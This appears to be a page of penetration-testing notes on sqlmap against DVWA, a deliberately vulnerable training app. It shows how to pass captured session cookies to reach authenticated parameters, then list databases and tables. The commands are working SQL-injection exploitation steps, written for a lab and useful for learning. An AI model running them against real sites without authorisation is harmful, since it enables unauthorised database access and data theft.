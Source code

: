 #### Authentication with Sqlmap

* If you are able to login to a webserver via credentials or another means, and you want sqlmap to test parameters that are only accessible past the login page, you need to figure out how the application is conducting session management.
* More often than not it is with a cookie
* Capture ALL of the cookies in the request like this:

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

* Now with your cookies in your clipboard buffer add them into your command

```
sqlmap -u "https://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lj1gugoprduur56u8lml5q373c; security=low"  --batch
```

#### Enumerating the Databases with Sqlmap

* Once sqlmap has identified a vulnerability, and you want to enumerate all the databases use:
* `--dbs`

```
sqlmap -u "https://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="COOKIE VALUE" --dbs
```

#### Enumerating the Tables in a Database

* Once you are able to dump the database names with sqlmap, now enumerate the tables in your database of interest&#x20;

```
sqlmap -r burp.request -D main --tables
```

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>
